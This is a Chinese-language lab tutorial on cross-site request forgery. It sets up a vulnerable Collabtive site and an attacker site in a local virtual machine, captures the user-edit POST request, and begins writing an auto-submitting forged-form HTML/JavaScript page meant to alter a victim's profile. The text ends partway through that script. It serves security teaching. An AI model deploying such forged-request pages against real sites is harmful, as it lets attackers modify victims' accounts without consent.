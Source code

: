 访问测试:http://www.csrflabcollabtive.com


![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077222967?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

**注：两个配置文件不同同时存在，否则Apache会出错，如果需要测试，建议把其中一个的端口修改为8080**

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077233024?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这个时候我们就可以同时访问两个网站了~~~

## 四、实验任务

实验环境介绍：第一个网站是脆弱Collabtive网站www.csrflabcollabtive.com在虚拟机访问。第二个网站是攻击者的恶意网站,用于攻击Collabtive。本网站内可以通过www.csrflabattacker.com访问虚拟机。

### lab1 修改受害者的信息

step1:启动mysql数据库:

```
sudo mysqld_safe
```

step2:访问 www.csrflabcollabtive.com并进行登录。

>用户：admin 密码：admin

step3:我们登陆了自己的用户，当我们希望可以修改别人的用户时，我们需要知道修改数据时的数据流，这个时候我们可以使用firefox浏览器自带的LiveHttpHeader插件来进行抓包获取修改用户时候的http消息；

点击菜单栏tools-LiveHttpHeader，然后访问编辑用户页面；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077485549?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077497500?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

通过抓取的信息，我们可以得知：

验证页面：http://www.csfrlabcollabtive.com/manageuser.php?action=edit

用户姓名id:name；company；email等等信息我们都可以进行修改；

**这里最好使用其他用户进行测试**

但是用户修改用户的方式post提交，我们就需要自己构造一个危险页面

```
>     <html><body><h1>
>     This page forges an HTTP POST request.
>     </h1>
>     <script>
>     function post(url,fields)
>     {
>     //create a <formelement.
>     var p = document.createElement('form');
>     //construct the form
>     p.action = url;
>     p.innerHTML = fields;
>     p.target = '_self';
>     p.method = 'post';
>     //append the form to the current page.
>     document.body.appendChild(p);
>     //submit the form
>     p.submit();
>     }
>     function csrf_hack()
>     {
>     var fields;
>     // The following are form entries that need to be filled out
```
